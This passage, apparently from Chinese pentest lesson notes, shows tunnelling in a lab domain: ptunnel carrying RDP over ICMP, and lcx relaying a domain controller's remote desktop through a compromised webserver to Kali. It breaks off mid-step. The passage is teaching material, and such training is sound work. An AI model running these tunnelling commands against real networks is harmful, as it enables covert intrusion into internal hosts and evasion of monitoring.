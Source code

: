 ```
./ptunnel -p 192.168.80.145 -lp 1080 -da 192.168.33.33 -dp 3389 -x xiaodi
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-15.png)

在kali上执行以下命令，弹出远程桌面

```shell
rdesktop 127.0.0.1:1080
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-16.png)

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-17.png)

kali远程登录administrator把已经登录的给挤掉了！

![71-18](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-18.png)

这样做有什么意义呢？原来3389连接远程桌面，使用的是3389对应的协议，现在连接远程桌面，流量数据传输就变成使用 ICMP 协议了。





## 案例 3-传输层转发隧道 Portmap 使用-检测,利用

![71-1](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-1.png)

隧道技术：传输层端口转发

工具：
windows: lcx
linux：portmap

### lcx

 lcx是一个端口转发工具，通过端口转发的形式，将内网服务器的某一个端口映射到公网另一台服务器的一个端口上去！
下载：https://github.com/MrAnonymous-1/lcx

在DC上执行以下命令，将本地3389给webserver的6666

```shell
Lcx.exe -slave 192.168.3.31 6666 127.0.0.1 3389 //将本地3389给webserver的6666
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-19.png)

在webserver上执行以下命令，监听6666端口流量并转发至7777

```shell
Lcx.exe -listen 6666 7777   // 监听6666转发至7777
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-20.png)

在kali上执行以下命令，连接webserver的7777，登录远程桌面访问，这里其实登录的是域控DC的远程桌面。
